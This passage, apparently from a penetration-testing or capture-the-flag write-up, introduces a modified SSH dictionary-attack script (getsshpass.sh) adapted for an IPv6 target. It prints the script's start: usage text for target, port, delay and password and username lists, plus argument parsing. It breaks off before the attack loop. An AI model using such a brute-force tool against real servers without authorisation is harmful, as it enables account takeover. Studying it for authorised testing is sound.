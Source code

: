 As a result of the module failing, I went on the hunt for an SSH brute force script and came across [getsshpass.sh](http://brezular.com/2016/01/11/bash-script-for-dictionary-attack-against-ssh-server/) by Radovan Brezula.

This script doesn't support IPv6 out of the box, but I made a few quick modifications to it in order to use it against the IPv6 target.

The modified script can be downloaded from [This Gist](https://gist.github.com/rastating/30425115b941921c9fd24f0b692f4153) or can be found below:

```bash
#!/bin/bash
#
# sshpass return values:
#   0 - password OK
#   3 - general runtime error
#   5 - bad password
#   255 - connection refused


declare -r START_TIME=$(date +%s.%N)   # Start time of the program

function usage {
  echo -e "Usage: $0 [OPTIONS]"
  echo "OPTIONS: "
  echo -e "   -a    IP address of SSH server"
  echo -e "   -d    TCP port 1 - 65535 of SSH server"
  echo -e "   -n    slow down or speed up attack for number of seconds"
  echo -e "         e.g. 1, 0.1, 0.0, default value is 0.1"
  echo -e "   -p    path to file with passwords"
  echo -e "   -u    path to file with usernames"
  echo -e "   -v    display version"
  echo -e "   -h    display help"
 }

function version
 {
  echo -e "getsshpass.sh 0.8"
  echo -e "Copyright (C) 2016 Radovan Brezula 'brezular'"
  echo -e "License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>."
  echo -e "This is free software: you are free to change and redistribute it."
  echo -e "There is NO WARRANTY, to the extent permitted by law."
  exit
 }

function read_args {
 while getopts "a:d:n:p:u:hv" arg; do
    case "$arg" in
       a) ip="$OPTARG";;
       d) port="$OPTARG";;
       n) nval="$OPTARG";;
       p) passlist="$OPTARG"
          initpasslist="$passlist";;
       u) userlist="$OPTARG"
          inituserlist="$userlist";;
       v) version;;
       h) usage
          exit;;
    esac
 done
}

function check_args {
 pthdir="$(dirname $0)"

```